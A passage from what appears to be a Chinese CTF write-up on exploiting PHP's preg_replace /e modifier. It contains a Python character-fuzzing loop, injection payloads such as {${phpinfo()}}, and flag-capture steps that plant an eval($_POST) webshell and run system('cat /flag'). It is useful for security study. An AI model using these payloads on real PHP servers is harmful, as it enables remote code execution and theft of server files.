 **非法字符在首位时**  **只有点号（.）会被替换**：

```python
import requests

for i in range(0,256):
    url = 'http://127.0.0.1/test%20(2).php/?'+chr(i)+'*a=1'
    re = requests.get(url)
    if '_*a' in re.text:
        print(re.text)
        print (str(i)+':'+chr(i))
```

![img](assets/202304161632172.png)

因此这就给了我们思路，只需要**构造来避开这些被Ban的字符来注入**就好：比如：

```python
?\S*={${phpinfo()}}//l1nk3r大佬的payload   \S* 表示贪婪匹配任意非空白字符

?\D*={${phpinfo()}}//我也尝试构造一个payload \D* 表示贪婪匹配任意非数字字符（我们的payload中不含数字）
当然还可以继续构造······
····
题目拿flag的姿势：
1. 利用源码给的getFlag函数
?\S*={${getFlag()}}&cmd=show_source('/flag');
2. 利用蚁剑getshell
?\S*={${getFlag()}}&cmd=eval($_POST[pass]);
或
?\S*={${eval($_POST[pass])}}
3. post传参
\S*=${$_POST[pass]}

post:
pass=system('cat /flag');
```

**附注：**

```php
var_dump(phpinfo()); // 结果：布尔 true
var_dump(strtolower(phpinfo()));// 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));// 结果：字符串'11'

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));// 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));// 结果：空字符串''
这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```
